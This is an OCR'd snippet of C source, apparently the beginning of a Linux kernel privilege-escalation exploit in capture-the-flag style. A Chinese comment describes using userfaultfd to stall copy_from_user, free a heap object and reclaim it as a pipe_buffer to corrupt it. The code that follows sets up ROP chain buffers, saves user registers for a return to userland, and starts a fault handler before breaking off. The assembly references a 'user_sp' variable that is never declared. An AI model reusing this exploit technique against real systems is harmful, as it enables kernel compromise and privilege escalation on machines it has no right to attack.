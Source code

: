 ```c
#include <stdio.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <string.h>
#include <syscall.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <poll.h>
#include <inttypes.h>

#define PAGE_SIZE 4096
// 我们在用 userfaultfd 做啥：在 copy_from_user 卡住时，先把堆给 free 掉然后再申请成可以利用的 pipe_buffer 结构体 此时 copy_from_user 接下来进行的时候就相当于可以改到该结构体

size_t kernel_base;

int fd;
char checkbuf[0x30];
char data[0x400];
int ptmx[0x100];
long long ptr;
int pipe_fd[50][2];
size_t ropchain[100];
size_t pipe_buf[0x200];
size_t user_cs, user_ss, user_rflags, user_rsp;
char c2[48];
void save_status(void)
{
    asm volatile ("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}


static void *Handler(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uc;
    ssize_t nread;

    uffd = (long)arg;
    while (1)
    {
        /* See what poll() tells us about the userfaultfd. */
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1)
        {
            printf("[-] poll");
            exit(-1);
        }
```
